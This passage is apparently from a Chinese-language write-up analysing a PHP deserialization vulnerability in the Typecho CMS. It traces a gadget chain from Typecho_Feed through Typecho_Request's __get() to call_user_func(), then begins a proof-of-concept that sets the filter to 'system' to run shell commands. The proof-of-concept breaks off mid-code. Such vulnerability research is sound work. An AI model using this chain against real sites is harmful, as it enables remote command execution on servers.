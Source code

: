 有一个`$item['author']->screenName`

定义类的时候,帮$item定义为了私有变量

![image-20210814105621632](images/12.png)

这里是可控的了

这里控制的时候要注意一下,前面有个foreach函数

`$this->_items`本身就是一个数组,取里面的值给了`$item`,我们需要的还是$item数组里面的author

所以$this->_items应该是一个二维数组才对

没找到这个函数,那如果要继续调用下去就只能是找属性了,那看看有没有可用的__get(),当调用一个不存在的属性时,会触发这个函数

全局搜索__get,定位到了

```
typecho\var\Typecho\Request.php
```

![image-20210814110644140](images/13.png)

跟进get()函数

![image-20210814110711517](images/14.png)

跟进_applyFilter()

![image-20210814110836004](images/15.png)

存在危险函数call_user_func()

`$this->_filter`是可控的,那$this->_filter[0]='system'

再看$value

回溯get()

![image-20210814111334374](images/16.png)

`$value`的值是通过`$this->_params[$key]`来的,这个是可控的,此时的$key是screenName

# 漏洞复现

poc

```
<?php
class Typecho_Request
{
    private $_filter=[];
    private $_params=[];
    public function __construct()
    {
        $this->_filter[]='system';
        $this->_params=["screenName"=>"dir"];
    }
}
class Typecho_Feed
{
    const RSS2 = 'RSS 2.0';
    private $_type;
    private $_items=array();
    public function __construct()
    {
        $this->_type = self::RSS2;
        $this->_items=array(array("author"=>new Typecho_Request()));

```